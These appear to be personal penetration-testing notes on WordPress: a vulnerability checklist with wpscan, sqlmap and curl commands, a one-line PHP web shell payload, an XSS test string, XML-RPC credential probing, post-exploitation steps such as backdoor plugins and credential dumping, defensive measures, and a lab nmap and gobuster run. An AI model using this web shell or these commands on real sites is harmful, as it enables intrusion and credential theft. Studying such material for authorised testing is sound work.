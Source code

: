 Tags: [[Wordpress]] [[Cybersecurity]] [[Penetration Testing]]

### Penetration Testing WordPress - Notes

#### **Overview**
WordPress is one of the most popular Content Management Systems (CMS) worldwide, powering over 40% of websites. Its popularity makes it a common target for attackers. Penetration testing WordPress involves identifying vulnerabilities in its core files, plugins, themes, and configurations.

---

### **WordPress Components to Test**
1. **Core**: Default WordPress installation files.
2. **Plugins**: Extend functionality but may introduce vulnerabilities.
3. **Themes**: Custom themes often have exploitable flaws.
4. **Configuration Files**: Especially `wp-config.php`.
5. **Users**: Privileged accounts, default users, and password strength.

---

### **Common Vulnerabilities in WordPress**
1. **Outdated Core, Plugins, or Themes**: Vulnerabilities patched in newer versions.
2. **Weak Credentials**: Admin accounts with weak passwords or default usernames like `admin`.
3. **File Upload Vulnerabilities**: Unrestricted file uploads leading to remote code execution (RCE).
4. **Exposed Sensitive Files**: Files like `wp-config.php` and `.htaccess` exposed publicly.
5. **Database Exposure**: SQL injection vulnerabilities in plugins/themes.
6. **Cross-Site Scripting (XSS)**: Injected scripts in themes, plugins, or comment forms.
7. **Privilege Escalation**: Users with lower privileges gaining admin access.
8. **XML-RPC Exploits**: Used for brute force attacks or Denial of Service (DoS).
9. **Directory Listings**: Exposed directories revealing sensitive information.

---

### **Penetration Testing Checklist**

#### **1. Reconnaissance**
- Enumerate WordPress installations:
  ```bash
  wpscan --url <target-url>
  ```
- Identify WordPress version, plugins, and themes:
  ```bash
  wpscan --url <target-url> --enumerate ap,at,u
  ```
  - **ap**: All plugins.
  - **at**: All themes.
  - **u**: Users.

- Check for robots.txt and sitemap.xml for sensitive endpoints:
  ```bash
  curl http://<target-url>/robots.txt
  ```

#### **2. Testing Default Credentials**
- Try common username/password combinations like `admin:admin` or `admin:password`.

#### **3. Plugin and Theme Vulnerabilities**
- Use **WPScan** to identify vulnerable plugins and themes:
  ```bash
  wpscan --url <target-url> --api-token <your-api-token>
  ```
- Manually verify vulnerable plugins/themes by searching CVEs on:
  - [Exploit Database](https://www.exploit-db.com/)
  - [WPScan Vulnerability Database](https://wpscan.com/)

#### **4. File Upload Exploits**
- Test forms for unrestricted file uploads:
  - Use tools like **Burp Suite** to modify content types and upload malicious PHP files.
  - Example payload: 
    ```php
    <?php echo shell_exec($_GET['cmd']); ?>
    ```

#### **5. Brute Forcing**
- Perform a brute force attack on login pages:
  ```bash
  wpscan --url <target-url> --passwords <password-list> --username <username>
  ```
  - Rate-limit your attacks to avoid detection.

#### **6. Sensitive File Exposure**
- Search for exposed files:
  ```bash
  curl http://<target-url>/wp-config.php
  curl http://<target-url>/.htaccess
  ```
- Test for backups:
  ```bash
  curl http://<target-url>/wp-config.php.bak
  ```

#### **7. SQL Injection**
- Identify vulnerable plugins/themes handling user input improperly.
- Use **sqlmap** to automate SQL injection testing:
  ```bash
  sqlmap -u "http://<target-url>?id=1" --batch
  ```

#### **8. Cross-Site Scripting (XSS)**
- Test forms, comments, or inputs with payloads:
  ```html
  <script>alert('XSS');</script>
  ```
- Look for reflected, stored, and DOM-based XSS vulnerabilities.

#### **9. XML-RPC Testing**
- Enumerate users via XML-RPC:
  ```bash
  curl -X POST http://<target-url>/xmlrpc.php --data '<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value><string>admin</string></value></param><param><value><string>password</string></value></param></params></methodCall>'
  ```
- Exploit XML-RPC for brute forcing or DoS.

---

### **Post-Exploitation**
1. **Access wp-admin**
   - Upload malicious plugins or themes to establish a backdoor.
2. **Steal Sensitive Data**
   - Extract database credentials from `wp-config.php`.
   - Dump user credentials using SQL injection.
3. **Pivoting**
   - Use compromised WordPress as a foothold for lateral movement in the network.

---

### **Defensive Measures**
1. **Keep Everything Updated**: Core, plugins, and themes.
2. **Limit Login Attempts**: Prevent brute-force attacks.
3. **Secure File Permissions**: Ensure sensitive files aren't accessible.
4. **Disable XML-RPC**: If not needed.
5. **Enforce Strong Passwords**: Use password managers and enable two-factor authentication (2FA).
6. **Restrict Admin Area**: Allow access only from specific IPs or use VPN.
7. **Use Security Plugins**:
   - Wordfence
   - Sucuri
8. **Regular Backups**: Keep offline and encrypted backups of the site.

---

### **Useful Tools for WordPress Pen Testing**
- **WPScan**: WordPress enumeration and vulnerability scanning.
- **Burp Suite**: Intercept and modify HTTP requests.
- **sqlmap**: SQL injection testing.
- **Nmap**: Port scanning and service detection.
- **Metasploit**: Exploiting known vulnerabilities.
- **Dirb/Gobuster**: Directory enumeration for hidden paths.


## Enumeration

```bash
sudo nmap -sV $target

# Nmap 7.94SVN scan initiated Sun Jan  5 11:01:38 2025 as: /usr/lib/nmap/nmap -sV -oN firstscan 10.129.19.208
Nmap scan report for 10.129.19.208
Host is up (0.066s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
```

We can see here there is a server on 80/tcp that is open running `nginx 1.14.2`. 

## Gobuster

#### Install Gobuster

First we need to download golang

```bash 
sudo apt install golang-go
```

Next we can install gobuster.

```Bash
sudo apt install gobuster
```


### Gobuster Help

```bash
gobuster --help
```

## Running Scan

```Bash
sudo gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u $target

```
